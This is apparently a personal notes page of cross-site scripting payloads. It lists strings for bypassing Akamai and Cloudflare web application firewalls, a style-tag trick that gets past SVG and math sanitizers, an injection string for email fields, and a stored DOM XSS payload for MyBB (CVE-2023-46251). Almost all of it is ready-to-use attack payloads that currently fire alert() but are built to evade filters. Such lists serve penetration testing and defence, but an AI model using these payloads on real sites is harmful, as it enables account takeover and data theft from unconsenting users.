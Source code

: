 
# Bypasses

General 1:

```
`url=%26%2302java%26%23115cript:alert(document.domain)`
```

Akamai [[WAF Bypass]] 1:

```
1'"><A HRef=\" AutoFocus OnFocus=top/**/?.['ale'%2B'rt'](1)>
```

Cloudflare [[WAF Bypass]] 1:

```
"><body/onload="{x:onerror=alert};x
```

Cloudflare [[WAF Bypass]] 2:

```
<inpuT autofocus oNFocus="setTimeout(function() { /*\`*/top['al'+'\u0065'+'rt']([!+[]+!+[]]+[![]+[]][+[]])/*\`*/ }, 5000);"></inpuT%3E&lT;/stYle&lT;/titLe&lT;/teXtarEa&lT;/scRipt&gT;
```

Hide payload in style tag of an SVG or math element for [[WAF Bypass]] or sanitizer bypass:

```
<svg><style> <script>alert(1)</script> </style></svg> <math><style> <img src onerror=alert(2)> </style></math>
```
# Field

Email field 1:

```
test@gmail.com%27\%22%3E%3Csvg/onload=alert(/xss/)%3E
```

# Stored
# Stored DOM

## MyBB

CVE-2023-46251 - Stored DOM XSS in MyBB < 1.8.37

```
[size='1337px;\">>\<img/src=ccc/ onerror=alert`1`//id=name //&pt;']eviltext[/size]
```